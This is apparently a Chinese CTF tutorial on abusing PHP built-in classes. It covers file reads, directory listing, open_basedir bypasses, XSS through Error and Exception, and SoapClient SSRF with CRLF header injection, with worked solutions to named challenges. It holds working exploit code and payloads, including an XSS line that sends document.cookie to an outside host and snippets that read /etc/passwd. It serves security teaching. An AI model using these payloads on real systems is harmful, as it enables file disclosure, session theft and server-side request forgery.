# Php 原生类总结 - 先知社区

Php 原生类总结

- - -

# PHP 原生类总结

# 前言

做这个总结的目的，一方面是为了巩固一下之前学习的内容，另一方面就是将知识系统化整理让其他人学习。

在做题过程中，有时候根据已知源码，想获取 flag 是不可能的，但是如果是 php 环境下，而且可以利用 php 原生类，可以打一些意想不到的 payload，从而 bypass 或者获得 flag。

利用下面脚本可以遍历得到 php 内置类

```plain
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            'open',
            '__set_state'    // 可以根据题目环境将指定的方法添加进来，来遍历存在指定方法的原生类
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
```

下面几个是在 CTF 中常用到的内置类

```plain
Error
Exception
SoapClient
DirectoryIterator
FilesystemIterator
SplFileObject
SimpleXMLElement
```

下面对这些原生类依次讲解

# SplFileObject:读取文件

[PHP: SplFileObject - Manual](https://www.php.net/manual/zh/class.splfileobject.php)

根据官方文档：

-   SplFileInfo 类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作

类介绍

```plain
class SplFileObject extends SplFileInfo implements RecursiveIterator, SeekableIterator {
/* 常量 */
public const int DROP_NEW_LINE;
public const int READ_AHEAD;
public const int SKIP_EMPTY;
public const int READ_CSV;
/* 方法 */
public __construct(
    string $filename,
    string $mode = "r",
    bool $useIncludePath = false,
    ?resource $context = null
)
public current(): string|array|false|void
public eof(): boolvoid
public fflush(): boolvoid
public fgetc(): string|false|void
public fgetcsv(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): array|false
public fgets(): stringvoid
public fgetss(string $allowable_tags = ?): string
public flock(int $operation, int &$wouldBlock = null): bool
public fpassthru(): intvoid
public fputcsv(
    array $fields,
    string $separator = ",",
    string $enclosure = "\"",
    string $escape = "\\",
    string $eol = "\n"
): int|false
public fread(int $length): string|false
public fscanf(string $format, mixed &...$vars): array|int|null
public fseek(int $offset, int $whence = SEEK_SET): int
public fstat(): arrayvoid
public ftell(): int|false|void
public ftruncate(int $size): bool
public fwrite(string $data, int $length = 0): int|false
public getChildren(): nullvoid
public getCsvControl(): arrayvoid
public getFlags(): intvoid
public getMaxLineLen(): intvoid
public hasChildren(): falsevoid
public key(): intvoid
public next(): voidvoid
public rewind(): voidvoid
public seek(int $line): void
public setCsvControl(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): void
public setFlags(int $flags): void
public setMaxLineLen(int $maxLength): void
public __toString(): stringvoid
public valid(): boolvoid
/* 继承的方法 */
public SplFileInfo::getATime(): int|false|void
public SplFileInfo::getBasename(string $suffix = ""): string
public SplFileInfo::getCTime(): int|false|void
public SplFileInfo::getExtension(): stringvoid
public SplFileInfo::getFileInfo(?string $class = null): SplFileInfo
public SplFileInfo::getFilename(): stringvoid
public SplFileInfo::getGroup(): int|false|void
public SplFileInfo::getInode(): int|false|void
public SplFileInfo::getLinkTarget(): string|false|void
public SplFileInfo::getMTime(): int|false|void
public SplFileInfo::getOwner(): int|false|void
public SplFileInfo::getPath(): stringvoid
public SplFileInfo::getPathInfo(?string $class = null): ?SplFileInfo
public SplFileInfo::getPathname(): stringvoid
public SplFileInfo::getPerms(): int|false|void
public SplFileInfo::getRealPath(): string|false|void
public SplFileInfo::getSize(): int|false|void
public SplFileInfo::getType(): string|false|void
public SplFileInfo::isDir(): boolvoid
public SplFileInfo::isExecutable(): boolvoid
public SplFileInfo::isFile(): boolvoid
public SplFileInfo::isLink(): boolvoid
public SplFileInfo::isReadable(): boolvoid
public SplFileInfo::isWritable(): boolvoid
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): stringvoid
}
```

举个例子

flag.txt

```plain
flag{test1}
flag{test2}
flag{test3}
```

```plain
<?php
$a=new SplFileObject('flag.txt');
echo $a;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222120942-3499ab28-d138-1.png)

可以看到，SplFileObject 一次只能读一行数据，因此在 CTF 中会结合 php 伪协议之类的打组合拳，也会和下面介绍的遍历目录的一些类打组合拳

而且，是否能够利用 SplFileObject 以及目录遍历内置类的关键是，看有没有 echo 之类的可以触发其内置的\_\_toString()，从而实现 PHP 内置类的利用

## 例题

**\[GDOUCTF 2023\]反方向的钟**

```plain
<?php
error_reporting(0);
highlight_file(__FILE__);
// flag.php
class teacher{
    public $name;
    public $rank;
    private $salary;
    public function __construct($name,$rank,$salary = 10000){
        $this->name = $name;
        $this->rank = $rank;
        $this->salary = $salary;
    }
}

class classroom{
    public $name;
    public $leader;
    public function __construct($name,$leader){
        $this->name = $name;
        $this->leader = $leader;
    }
    public function hahaha(){
        if($this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'){
            return False;
        }
        else{
            return True;
        }
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}

if(isset($_GET['d'])){
    unserialize(base64_decode($_GET['d']));
}
?>
```

链子还是比较清晰的

```plain
school::__wakeup()->classroom::hahaha()->school::IPO()
```

```plain
<?php
class teacher{
    public $name;
    public $rank;
    private $salary;
    public function __construct($name,$rank,$salary = 10000){
        $this->name = $name;
        $this->rank = $rank;
        $this->salary = $salary;
    }
}

class classroom{
    public $name;
    public $leader;
    public function __construct($name,$leader){
        $this->name = $name;
        $this->leader = $leader;
    }
    public function hahaha(){
        if($this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'){
            return False;
        }
        else{
            return True;
        }
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}
$a=new teacher('ing','department');
$b=new classroom('one class',$a);
$c=new school($b,'ong');
echo base64_encode(serialize($c));
```

之后可以进行传参了，但是根据源码，没有可以进行 RCE 的点，这个时候就可以利用 PHP 的原生类了

利用**SplFileObject**类结合 php 伪协议读取 flag

```plain
a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php
```

**\[2021 MAR DASCTF 明御攻防赛\]ez\_serialize**

```plain
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
            return true;
    }
}


if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```

通过审计，发现链子为

```plain
A::__constuct->C::vaild->A::__wakeup()
```

我们不能使用特殊字符，可以利用字母和数字进行操作，而且可以看到

```plain
echo new  $this->class ($this->para);
```

可以通过 echo 调用内置类中的\_\_toString()，从而利用 php 内置类，所以我们可以使用 PHP 内置类

先遍历目录

```plain
<?php
class A{
    public $class='FilesystemIterator';
    public $para='/var/www/html';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

遍历得到**aMaz1ng\_y0u\_coUld\_f1nd\_F1Ag\_hErE**

继续遍历

```plain
<?php
class A{
    public $class='FilesystemIterator';
    public $para='/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

得到 flag.php，之后结合 SplFileObject 类进行读取

```plain
<?php
class A{
    public $class='SplFileObject';
    public $para='/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

# GlobIterator，DirectoryIterator,FilesystemIterator:遍历目录

这几个类一般配合别的类打组合拳的

## DirectoryIterator 类

[PHP: DirectoryIterator - Manual](https://www.php.net/manual/zh/class.directoryiterator)

DirectoryIterator 类提供了一个简单的查看界面 文件系统目录的内容。

类摘要

```plain
class DirectoryIterator extends SplFileInfo implements SeekableIterator {
/* 方法 */
public __construct(string $directory)
public current(): mixedvoid
public getBasename(string $suffix = ""): string
public getExtension(): stringvoid
public getFilename(): stringvoid
public isDot(): boolvoid
public key(): mixedvoid
public next(): voidvoid
public rewind(): voidvoid
public seek(int $offset): void
public __toString(): stringvoid
public valid(): boolvoid
/* 继承的方法 */
public SplFileInfo::getATime(): int|false|void
public SplFileInfo::getBasename(string $suffix = ""): string
public SplFileInfo::getCTime(): int|false|void
public SplFileInfo::getExtension(): stringvoid
public SplFileInfo::getFileInfo(?string $class = null): SplFileInfo
public SplFileInfo::getFilename(): stringvoid
public SplFileInfo::getGroup(): int|false|void
public SplFileInfo::getInode(): int|false|void
public SplFileInfo::getLinkTarget(): string|false|void
public SplFileInfo::getMTime(): int|false|void
public SplFileInfo::getOwner(): int|false|void
public SplFileInfo::getPath(): stringvoid
public SplFileInfo::getPathInfo(?string $class = null): ?SplFileInfo
public SplFileInfo::getPathname(): stringvoid
public SplFileInfo::getPerms(): int|false|void
public SplFileInfo::getRealPath(): string|false|void
public SplFileInfo::getSize(): int|false|void
public SplFileInfo::getType(): string|false|void
public SplFileInfo::isDir(): boolvoid
public SplFileInfo::isExecutable(): boolvoid
public SplFileInfo::isFile(): boolvoid
public SplFileInfo::isLink(): boolvoid
public SplFileInfo::isReadable(): boolvoid
public SplFileInfo::isWritable(): boolvoid
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): stringvoid
}
```

示例：

```plain
<?php
$iterator = new DirectoryIterator('C:\\');
echo $iterator->getPathname();
?>
```

```plain
C:\$Recycle.Bin
```

遍历目录

```plain
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString() 也可，因为 echo 可以自动调用
}
?>
```

会创建一个指定目录的迭代器。当执行到 echo 函数时，会触发 DirectoryIterator 类中的 `__toString()` 方法，输出指定目录里面经过排序之后的第一个文件名

常配合 glob://协议寻找我们想要的文件路径

```plain
<?php
$dir=new DirectoryIterator("glob:///flag");
echo $dir;
```

```plain
payload:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## FilesystemIterator 类

[PHP: FilesystemIterator - Manual](https://www.php.net/manual/zh/class.filesystemiterator)

FilesystemIterator 提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。

其实和 DirectoryIterator 类相同用法

```plain
<?php
$dir=new FilesystemIterator("C:\\");
echo $dir;
```

```plain
$Recycle.Bin
```

```plain
payload:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## GlobIterator 类

遍历一个文件系统行为类似于 [glob()](https://www.php.net/manual/zh/function.glob.php)。

类摘要

```plain
class GlobIterator extends FilesystemIterator implements Countable {
/* 继承的常量 */
public const int FilesystemIterator::CURRENT_MODE_MASK;
public const int FilesystemIterator::CURRENT_AS_PATHNAME;
public const int FilesystemIterator::CURRENT_AS_FILEINFO;
public const int FilesystemIterator::CURRENT_AS_SELF;
public const int FilesystemIterator::KEY_MODE_MASK;
public const int FilesystemIterator::KEY_AS_PATHNAME;
public const int FilesystemIterator::FOLLOW_SYMLINKS;
public const int FilesystemIterator::KEY_AS_FILENAME;
public const int FilesystemIterator::NEW_CURRENT_AND_KEY;
public const int FilesystemIterator::OTHER_MODE_MASK;
public const int FilesystemIterator::SKIP_DOTS;
public const int FilesystemIterator::UNIX_PATHS;
/* 方法 */
public __construct(string $pattern, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO)
public count(): intvoid
/* 继承的方法 */
public FilesystemIterator::current(): string|SplFileInfo|FilesystemIterator|void
public FilesystemIterator::getFlags(): intvoid
public FilesystemIterator::key(): stringvoid
public FilesystemIterator::next(): voidvoid
public FilesystemIterator::rewind(): voidvoid
public FilesystemIterator::setFlags(int $flags): void
public DirectoryIterator::current(): mixedvoid
public DirectoryIterator::getBasename(string $suffix = ""): string
public DirectoryIterator::getExtension(): stringvoid
public DirectoryIterator::getFilename(): stringvoid
public DirectoryIterator::isDot(): boolvoid
public DirectoryIterator::key(): mixedvoid
public DirectoryIterator::next(): voidvoid
public DirectoryIterator::rewind(): voidvoid
public DirectoryIterator::seek(int $offset): void
public DirectoryIterator::__toString(): stringvoid
public DirectoryIterator::valid(): boolvoid
public SplFileInfo::getATime(): int|false|void
public SplFileInfo::getBasename(string $suffix = ""): string
public SplFileInfo::getCTime(): int|false|void
public SplFileInfo::getExtension(): stringvoid
public SplFileInfo::getFileInfo(?string $class = null): SplFileInfo
public SplFileInfo::getFilename(): stringvoid
public SplFileInfo::getGroup(): int|false|void
public SplFileInfo::getInode(): int|false|void
public SplFileInfo::getLinkTarget(): string|false|void
public SplFileInfo::getMTime(): int|false|void
public SplFileInfo::getOwner(): int|false|void
public SplFileInfo::getPath(): stringvoid
public SplFileInfo::getPathInfo(?string $class = null): ?SplFileInfo
public SplFileInfo::getPathname(): stringvoid
public SplFileInfo::getPerms(): int|false|void
public SplFileInfo::getRealPath(): string|false|void
public SplFileInfo::getSize(): int|false|void
public SplFileInfo::getType(): string|false|void
public SplFileInfo::isDir(): boolvoid
public SplFileInfo::isExecutable(): boolvoid
public SplFileInfo::isFile(): boolvoid
public SplFileInfo::isLink(): boolvoid
public SplFileInfo::isReadable(): boolvoid
public SplFileInfo::isWritable(): boolvoid
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): stringvoid
}
```

GlobIterator 类与前面两个类的区别是，可以直接通过模式匹配寻找文件路径，而前两个类是生成一个指定目录的迭代器，之后利用 echo 调用内置类中的\_\_tostring 方法从而调用第一个文件名的

```plain
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f);
}
?>
```

```plain
payload:
$a = new GlobIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## Trick->绕过 open\_basedir 限制

### 遍历目录

#### DirectoryIterator 类 + glob://协议

```plain
<?php
ini_get('open_basedir');
$dir_array = array();

$dir = new DirectoryIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new DirectoryIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
?>
```

利用两次`DirectoryIterator类 + glob://协议`可以直接读取根目录的内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121008-43e8ddc4-d138-1.png)

#### FilesystemIterator 类 + glob://协议

我们上面也了解到了 FilesystemIterator 类和 DirectoryIterator 类作用一样，只是显示不太一样

```plain
<?php
ini_get('open_basedir');
$dir_array = array();

$dir = new FilesystemIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new FilesystemIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121024-4dcdac84-d138-1.png)

### 文件读取

#### ini\_set() + 相对路径

由于 open\_basedir 自身的问题，设置为相对路径`..`在解析的时候会致使自身向上跳转一层

因此多设置几次 ini\_set() 就可以跳转到根目录

```plain
<?php
    show_source(__FILE__);
    ini_get('open_basedir');

    mkdir('test');
    chdir('test');
    ini_set('open_basedir','..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir','/');

    echo file_get_contents('/etc/passwd'); 

?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121030-51321f72-d138-1.png)

#### shell 命令执行

shell 命令不受 open\_basedir 的影响

```plain
<?php
    show_source(__FILE__);
    ini_get('open_basedir');
    system('cat /etc/passwd');
?>
```

#### symlink()

```plain
<?php
    show_source(__FILE__);

    mkdir("1");chdir("1");
    mkdir("2");chdir("2");
    mkdir("3");chdir("3");
    mkdir("4");chdir("4");

    chdir("..");chdir("..");chdir("..");chdir("..");

    symlink("1/2/3/4","tmplink");
    symlink("tmplink/../../../../etc/hosts","bypass");
    unlink("tmplink");
    mkdir("tmplink");
    echo file_get_contents("bypass");
?>
```

由于 symlink() 在软连接的时候不区分类型，我们利用创建的文件夹顶替了软连接，变成了

```plain
/www/wwwroot/default/tmplink/../../../../etc/hosts
```

也就目录穿越到了`/etc/hosts`

# Error,Exception:XSS，绕过哈希比较

## XSS

### Error 类

-   适用于 php7 版本
-   在开启报错的情况下

Error 类可以自定义一个 Error。

在 Php7 版本中，和前面的内置类利用条件一样，如果通过`echo`之类的方法，将对象当作一个字符串输出或使用的时候，会触发其内置的\_\_toString 方法，从而可以利用这个内置类做一些坏事情

比较常见的是在反序列化中没有 pop 链时，而且符合打的条件，可以转为利用 Error 类打 Xss

```plain
<?php
$a=new Error("<script>alert('xss')</script>");
echo urlencode(serialize($a));
```

```plain
<?php
phpinfo();
show_source(__FILE__);
$a = unserialize($_GET['cmd']);
echo $a;
?>
```

可以看到，server 端最后通过 echo 输出 GET 传参的结果，所以可以触发 Error 类的\_\_toString 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121043-59152f36-d138-1.png)

### Exception 类

-   适用于 php5、7 版本
-   开启报错的情况下

和 Error 类类似，但是可以在 Php5 版本下使用

```plain
<?php
$a=new Exception("<script>alert('xss')</script>");
echo urlencode(serialize($a));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121054-5fa06e88-d138-1.png)

### 例题

**\[BJDCTF 2nd\]xss 之光**

利用 Buu 的靶机，打开 BP 扫描发现有 git 泄露

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121100-62ccfffe-d138-1.png)

得到源码

```plain
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

只给了一个传参地方，根据题目名以及条件，这个时候就可以利用内置类打 Xss 了

```plain
<?php
$a=new Exception('<script>window.open("http://9f5ea2b6-a58d-4d22-82c7-eeb923f3d9a6.node5.buuoj.cn:81/"+document.cookie)</script>');
//一般 Xss 题目 flag 在 Cookie 里
echo urlencode(serialize($a));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121105-660e344e-d138-1.png)

## 绕过哈希比较

### Error 类

-   php7.0.0

### Exception 类

-   php5

这里我两个一起说了，原理都是一样的

示例：

```plain
<?php
$a = new Error("payload",1);$b = new Error("payload",2);
echo $a;
echo $b;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121111-699eb0ac-d138-1.png)

可以看到，输出结果是一样的，因此可以绕过哈希

# SoapClient：SSRF

[PHP: SoapClient - Manual](https://www.php.net/manual/zh/class.soapclient)

SoapClient 是一个专门用来访问 web 服务的类，可以提供一个基于[SOAP](https://so.csdn.net/so/search?q=SOAP&spm=1001.2101.3001.7020)协议访问 Web 服务的 PHP 客户端。

类摘要

```plain
class SoapClient {
/* 属性 */
private ?string $uri = null;
private ?int $style = null;
private ?int $use = null;
private ?string $location = null;
private bool $trace = false;
private ?int $compression = null;
private ?resource $sdl = null;
private ?resource $typemap = null;
private ?resource $httpsocket = null;
private ?resource $httpurl = null;
private ?string $_login = null;
private ?string $_password = null;
private bool $_use_digest = false;
private ?string $_digest = null;
private ?string $_proxy_host = null;
private ?int $_proxy_port = null;
private ?string $_proxy_login = null;
private ?string $_proxy_password = null;
private bool $_exceptions = true;
private ?string $_encoding = null;
private ?array $_classmap = null;
private ?int $_features = null;
private int $_connection_timeout;
private ?resource $_stream_context = null;
private ?string $_user_agent = null;
private bool $_keep_alive = true;
private ?int $_ssl_method = null;
private int $_soap_version;
private ?int $_use_proxy = null;
private array $_cookies = [];
private ?array $__default_headers = null;
private ?SoapFault $__soap_fault = null;
private ?string $__last_request = null;
private ?string $__last_response = null;
private ?string $__last_request_headers = null;
private ?string $__last_response_headers = null;
/* 方法 */
public __construct(?string $wsdl, array $options = [])
public __call(string $name, array $args): mixed
public __doRequest(
    string $request,
    string $location,
    string $action,
    int $version,
    bool $oneWay = false
): ?string
public __getCookies(): array
public __getFunctions(): ?array
public __getLastRequest(): ?string
public __getLastRequestHeaders(): ?string
public __getLastResponse(): ?string
public __getLastResponseHeaders(): ?string
public __getTypes(): ?array
public __setCookie(string $name, ?string $value = null): void
public __setLocation(?string $location = null): ?string
public __setSoapHeaders(SoapHeader|array|null $headers = null): bool
public __soapCall(
    string $name,
    array $args,
    ?array $options = null,
    SoapHeader|array|null $inputHeaders = null,
    array &$outputHeaders = null
): mixed
}
```

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而`__call`触发很简单，就是当对象访问不存在的方法的时候就会触发。

该类的构造函数如下：

```plain
PHP
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
- 第一个参数是用来指明是否是 wsdl 模式，将该值设为 null 则表示非 wsdl 模式。
- 第二个参数为一个数组，如果在 wsdl 模式下，此参数可选；如果在非 wsdl 模式下，则必须设置 location 和 uri 选项，其中 location 是要将请求发送到的 SOAP 服务器的 URL，而 uri 是 SOAP 服务的目标命名空间
```

本地测试一下

```plain
<?php

$client=new SoapClient(null,array('uri'=>'127.0.0.1','location'=>'http://127.0.0.1:9999/flag.php'));

$client->AAA();
?>
```

本地监听 9999 端口

```plain
POST /flag.php HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: PHP-SOAP/7.0.12
Content-Type: text/xml; charset=utf-8
SOAPAction: "127.0.0.1#AAA"
Content-Length: 372
```

我们发现 ua 是可控的，可以通过 CRLF 控制报文

```plain
<?php

$ua="test\r\nX-Forwarded-For:127.0.0.1,127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";

$client=new SoapClient(null,array('uri'=>'127.0.0.1','location'=>'http://127.0.0.1:9999/flag.php','user_agent'=>$ua));

$client->AAA();
//echo urlencode(serialize($client));
?>
```

```plain
POST /flag.php HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
X-Forwarded-For:127.0.0.1,127.0.0.1,127.0.0.1//因为本地没加函数
Content-Type:application/x-www-form-urlencoded
Content-Length: 13

token=ctfshow//长度 13 下面的丢弃
Content-Type: text/xml; charset=utf-8
SOAPAction: "127.0.0.1#AAA"
Content-Length: 372
```

因此达成伪造的效果

### 例题

**ctfshow web259**

index.php

```plain
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

可以看到这里调用了一个不存在的方法，所以考点应该就是利用 SoapClient 打 SSRF 了

flag.php

```plain
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']); //打散为数组，用，分割
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

可以看到

```plain
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
```

XFF 头需要 array\_pop 两次，取第二次的值作为 IP，所以我们构造 XFF 的时候需要注意一下，可以测试一下

```plain
array_pop 两次：
X-Forwarded-For:x ————>X-Forwarded-For:空
X-Forwarded-For:x,y ————>X-Forwarded-For:x
X-Forwarded-For:x,y,z ————>X-Forwarded-For:y
```

CRLF 小 tips:

```plain
HTTP 请求头之间的参数用一个\r\n分隔
HTTP Header 与 HTTP Body 是用两个\r\n分隔的
```

payload:

```plain
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$ua="test\r\nX-Forwared-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
//Content-Length 需要修改
$b = new SoapClient(null,array('location' => $target,'user_agent'=>$ua,'uri'=> "http://127.0.0.1/"));
$a = serialize($b);
echo urlencode($a);
?>
